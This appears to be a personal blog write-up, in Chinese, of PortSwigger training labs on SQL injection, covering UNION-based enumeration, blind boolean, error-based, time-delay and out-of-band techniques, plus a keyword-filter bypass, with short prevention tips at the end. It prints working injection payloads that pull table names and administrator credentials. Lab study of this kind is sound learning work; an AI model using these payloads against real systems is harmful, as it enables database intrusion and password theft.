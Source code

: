 ```yaml
---
title: "PortSwigger SQLi writeup"
published: 2025-01-31T00:00:00.000Z
description: ""
tags: [PortSwigger, Learning, Writeups]
category: Learning
draft: false
---
```

## **SQL injection attack, querying the database type and version on MySQL and Microsoft**

1. 開始會需要用到 Burp Suite Repeater 來幫忙轉成 URL Encoding 了（而且也比較方便看 response）
2. 注意註記符號 “—” 有時候要改成 “#” 才能過
3. 曾經試過的幾個payload
   1. Gifts'+UNION+SELECT+@@version,+NULL#
   2. Gifts'%2bUNION%2bSELECT%2b%40%40version%2c%2bNULL%23 (上一個的URL型態)
   3. Gifts' UNION SELECT @@version, 'abc' #
   4. Gifts'%20UNION%20SELECT%20%40%40version%2c%20'abc'%20%23（上一個的URL型態，命中！）

![image](https://hackmd.io/_uploads/SJjoZ4IOyg.png)

結論：”+”不能亂加，然後要試試看 URL型態，而且註記符號要多試試看 ”#”

<!--more-->

## **SQL injection attack, listing the database contents on non-Oracle databases**

> 整體流程：先看information_schema_tables有哪些table，再往下繼續進攻

Payloads

```
%27+UNION+SELECT+table_name,+NULL+from+information_schema.tables--
```

要記得有兩個回傳值！

發現有一個叫做 users_abcdef，繼續探索！

```
%27+UNION+SELECT+column_name,null+from+information_schema.columns+where+table_name=%27users_jvzepp%27--
```

(發現這一題用"+"連接比較能夠執行，然後要注意是用information_schema_columns！)

![image](https://hackmd.io/_uploads/rk3H1uUdJe.png)

往下一層走！

```
%27+UNION+SELECT+username_jxzshr,+password_sdwxli+from+users_oogkho--
```

![image](https://hackmd.io/_uploads/r1oWNYLOJx.png)

結束收工！

p.s 問題點
其實我還是不知道該如何呼叫出這樣的表格
可能會再研究一陣子ww
![image](https://hackmd.io/_uploads/BkJw4K8OJe.png)

## **Blind SQL injection with conditional responses**

```
TrackingId=<那時候的cookie>' AND '1'='1
```

測起來發現welcome back可以作為 Blind SQLi 判斷依據

接著改Tracking ID

`' and (select 'a' from users where username = 'administrator' and length(password)><暴力破解的地方>)='a`

發現這時候welcome back消失(從length觀察最明顯！)
所以密碼是 20 位！
![image](https://hackmd.io/_uploads/HJKLPqUdkx.png)

接下來會用到一個叫做 SUBSTRING() 的函式！
複習一下：`SUBSTRING(字串, 起始位置, 長度)`

```
SUBSTRING('abcd', 2, 1)  -- 取得 'b'
SUBSTRING('abcd', 3, 2)  -- 取得 'cd'
```

接著因為要一個一個測試太麻煩了，再交給intruder做一次！
然後因為我想要同時從第1-20位一個一個檢測a-z,0-9
有兩個位置，所以使用cluster bomb!

`Cookie: TrackingId=1Be9Mx18D4iTRv39' and (select SUBSTRING(password,<位置1>,1) from users where username = 'administrator')='<位置2>;`

最後結果！（可以搭配 View Filter 還有 Payload 1 降冪來協助方便分析）
![image](https://hackmd.io/_uploads/BkAv7sUu1x.png)
組合起來就是 administrator 的密碼了！

## **Blind SQL injection with conditional errors**

> 因為不是要用and了，是另外一個獨立的語句
> 所以在oracle裡面要用 || 連接語法！

順便稍微複習一下 SQL 的 case 用法！

```
SELECT CASE
         WHEN condition1 THEN result1
         WHEN condition2 THEN result2
         ELSE result_default
       END
```

舉例：

```
SELECT name,
       CASE
         WHEN salary < 3000 THEN 'Low'
         WHEN salary BETWEEN 3000 AND 5000 THEN 'Medium'
         ELSE 'High'
       END AS salary_category
FROM employees;
```

![image](https://hackmd.io/_uploads/H1IfNat_Jx.png)

![image](https://hackmd.io/_uploads/rkve4pY_yg.png)

![image](https://hackmd.io/_uploads/HklDJraYO1l.png)

![image](https://hackmd.io/_uploads/ryiqVpKdkl.png)

## **`<font color="#b543ff">`Visible error-based SQL injection`</font>`**

> 這一個 Lab 是要去故意製造
> 會顯示線索的錯誤資訊！

`<font color="#ff8a38"></font>`

`TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`
要特別注意，因為這一個網站會去限制 TrackingID 的長度，所以一定要把原本的 ID 全部刪掉，直接用 ' 替代，才有足夠的空間留給我們的 payload !

Q: 那為什麼不直接用前一題的 ||(select...... 就好？
A: 雖然可以成功把 payload 送進去，可是系統判讀成功後是會直接顯示商品畫面，而不會有任何密碼顯示，所以才要故意用 1=cast() 去製造錯誤訊息！

![image](https://hackmd.io/_uploads/HJGKsaKO1g.png)

![image](https://hackmd.io/_uploads/ryS3j6Ku1l.png)

## **Blind SQL injection with time delays and information retrieval**

> 跟前面一樣的套路
> 只是記得 resource pool 並行要改一次一個才能看出時間的差距！

![image](https://hackmd.io/_uploads/H1NuJecuyg.png)

![image](https://hackmd.io/_uploads/H18v1xcd1x.png)

![image](https://hackmd.io/_uploads/Byi8Wx5_1l.png)

![image](https://hackmd.io/_uploads/SJFzbg5_1l.png)

## **Blind SQL injection with out-of-band interaction**

> 這題是要透過 DNS Lookup 來完成
> 題目裡有提示說可以翻一下 BurpSuite 他們家的cheat sheet
> ![image](https://hackmd.io/_uploads/Sk-SvW5_kx.png)
> 先用Oracle試試看
> 記得要把 BURP-COLLABORATOR-SUBDOMAIN 改成去到burpsuite的collaborator 裡面 payload copy 的連結！
> ![image](https://hackmd.io/_uploads/BkjzwWcuJg.png)
> 看到這個畫面就代表做對了！

## **Blind SQL injection with out-of-band data exfiltration**

上一題的伏筆就在這一題出現了！
我們一樣可以用官方給的 cheat sheet 下手，只是上一題沒討論到query部分這時候就可以上場了！

![image](https://hackmd.io/_uploads/Sk-SvW5_kx.png)

![image](https://hackmd.io/_uploads/S1e42Z5_kx.png)

直接在 query 部分打上我們在前幾個 lab 裡面請求密碼的方法
然後可以順便注意，我們後面緊接著的就是 collaborator payload
所以，
![image](https://hackmd.io/_uploads/BJGm3-qOyg.png)
得到的結果看 payload 之前的前半段就是我們 query 得到的密碼！

## **SQL injection with filter bypass via XML encoding**

> 這一題開始會需要用到 extensions!
> 會用到的叫做hackvertor，可以在 Extensions->BApp Store 裡面直接下載來用

題目有直接說弱點在 check stock 的 post 上（去點一下 check stock 按鈕就會抓到！）

這個 lab 最主要的特點是 Select 這個字眼會被擋掉（會顯示Attack detected擋住），所以才要用 hackvertor 來加密繞過驗證！
然後注意一件事：
如果回傳兩行會一律跳出 0 unit，其實就是代表 error 了
所以要用單行回傳方式（複習一下：用 | |'<連接的符號>'| |）
![image](https://hackmd.io/_uploads/Bkq5kGquye.png)
繞過後就可以順利得到密碼！

## **所以怎麼預防？**

1. 參數化（可是只能用在部分query中，像是table, column, ORDER BY就不適用）
2. 白名單（補救方法）
3. 特製判斷輸入邏輯
